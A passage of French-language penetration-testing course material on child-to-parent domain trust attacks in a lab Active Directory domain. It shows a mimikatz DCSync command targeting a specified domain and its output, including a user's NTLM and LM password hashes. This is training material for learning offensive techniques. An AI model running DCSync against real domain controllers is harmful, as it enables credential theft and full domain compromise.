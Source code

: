 Lorsqu'il s'agit de plusieurs domaines et que notre domaine cible n'est pas le même que le domaine de l'utilisateur, nous devrons spécifier le domaine exact pour effectuer l'opération DCSync sur le contrôleur de domaine particulier. La commande pour cela ressemblerait à ce qui suit :

  Attaquer les approbations de domaine - Enfant -> Affiliations parentales - à partir de Windows

```
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL

[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
    lm  - 0: 6053227db44e996fe16b107d9d1e95a0

```

* * * * *

Prochaines étapes
-----------------

Maintenant que nous avons parcouru la compromission du domaine enfant --> parent à partir d'une boîte d'attaque Windows, nous allons aborder quelques façons d'obtenir la même chose si nous sommes limités à un hôte d'attaque Linux.
